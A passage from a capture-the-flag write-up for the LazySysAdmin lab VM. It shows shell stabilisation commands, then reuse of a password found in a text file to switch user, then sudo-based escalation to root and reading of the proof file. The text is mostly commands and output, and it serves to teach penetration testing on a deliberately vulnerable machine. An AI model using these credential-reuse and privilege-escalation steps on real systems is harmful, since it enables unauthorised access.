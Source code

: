 30
tput cols
129
stty raw -echo
fg
reset
TERM=xterm-256color #anything when it prompts you, then
export TERM=xterm-256color
stty rows 30 columns 129
clear
:)
```


Seeing as we have the password from wordpress, we try reusing it again.
```
su togie > TogieMYSQL12345^^
this did not work. However, the password we found in deets.txt, was 12345, and this IS the correct password.

togie@LazySysAdmin:/var/www/html/wordpress/wp-content/plugins$ id
uid=1000(togie) gid=1000(togie) groups=1000(togie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)
togie@LazySysAdmin:/var/www/html/wordpress/wp-content/plugins$ 

togie@LazySysAdmin:/var/www/html/wordpress/wp-content/plugins$ sudo -l
[sudo] password for togie: 
Matching Defaults entries for togie on LazySysAdmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User togie may run the following commands on LazySysAdmin:
    (ALL : ALL) ALL
togie@LazySysAdmin:/var/www/html/wordpress/wp-content/plugins$ 

togie@LazySysAdmin:/var/www/html/wordpress/wp-content/plugins$ sudo su
root@LazySysAdmin:/var/www/html/wordpress/wp-content/plugins# id
uid=0(root) gid=0(root) groups=0(root)
root@LazySysAdmin:/var/www/html/wordpress/wp-content/plugins# 
```

```
root@LazySysAdmin:/var/www/html/wordpress/wp-content/plugins# cd /root
root@LazySysAdmin:~# ls
proof.txt
root@LazySysAdmin:~# cat proof.txt 
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851


Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie
```
### Game over!!!
